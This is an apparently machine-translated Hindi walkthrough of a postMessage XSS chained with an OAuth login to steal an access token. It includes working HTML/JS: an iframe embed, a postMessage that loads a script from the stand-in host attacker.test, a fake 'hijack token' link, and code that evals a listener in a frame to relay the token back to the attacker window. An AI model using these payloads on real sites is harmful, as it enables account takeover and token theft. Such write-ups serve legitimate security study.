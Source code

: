 इस मामले में, **हमलावर एक iframe लोड करता है जिसमें Post-message XSS vuln पेज होता है**, और **XSS का शोषण** करके **अनियमित JS को लोड करता है**।
यह **JS** एक **टैब खोलेगा** जिसमें **OAuth लिंक** होगा। लॉगिन करने के बाद, अंतिम पेज में URL में टोकन होगा और एक iframe (XSS post-message vuln iframe) लोड हो जाएगा।

फिर, **अनियमित JS** (शोषित XSS से) में एक **ओपनर टैब होता है**, इसलिए यह **iframe तक पहुंचता है** और इसे **माता-पिता से `initConfig` के लिए पूछता है** (जिसमें टोकन वाला URL होता है)। माता-पिता पेज इसे iframe को देता है, जिसे इसे **लीक करने के लिए भी आदेश दिया जाता है**।

इस मामले में, मैं पिछले उदाहरण की तरह एक समान तरीका कर सकता हूँ:

1. एक **खतरनाक पेज बनाएं** जिसमें सैंडबॉक्स का एक **iframe एम्बेड किया गया होता है**, और जब इस iframe को लोड किया जाता है तो एक स्क्रिप्ट को **ट्रिगर करने के लिए onload लगाएं**।

```html
<div id="leak"><iframe
id="i" name="i"
src="https://challenge-iframe.example.com/"
onload="run()"
style="border:0;width:500px;height:500px"></iframe></div>
```

2. क्योंकि **खतरनाक पेज फिर इस iframe का माता-पिता होता है**, इसलिए यह **postMessage (XSS)** का उपयोग करके सैंडबॉक्स के मूल्यांकन में हमारी स्क्रिप्ट को लोड करने के लिए इस iframe को एक संदेश भेज सकता है:

```html
<script>
function run() {
i.postMessage({type:'loadJs',jsUrl:'https://attacker.test/inject.js'}, '*')
}
</script>
```

3. सैंडबॉक्स में लोड हो रही मेरी स्क्रिप्ट में, मैंने सामग्री को **पीड़ित करने के लिए पीड़ित व्यक्ति के लिए लिंक के साथ बदल दिया**:

```javascript
document.body.innerHTML = '<a href="#" onclick="
b=window.open("https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...");">
Click here to hijack token</a>';
```

मैंने इसके अलावा एक स्क्रिप्ट शुरू किया है जो यह जांचने के लिए है कि क्या लिंक खोला गया है और मैं जिस iframe को पहुंचना चाहता था, वहां है, ताकि मैं अपने iframe से मुख्य विंडो में जावास्क्रिप्ट चला सकूं। फिर मैंने एक postMessage-listener जोड़ा है जो संदेश को मेरे खतरनाक विंडो में वापस भेजता है:

```javascript
x = setInterval(function() {
if(b && b.frames[1]) {
b.frames[1].eval(
'onmessage=function(e) { top.opener.postMessage(e.data, "*") };' +
'top.postMessage({type:'initConfig'},"*")'
)
clearInterval(x)
}
}, 500);
```
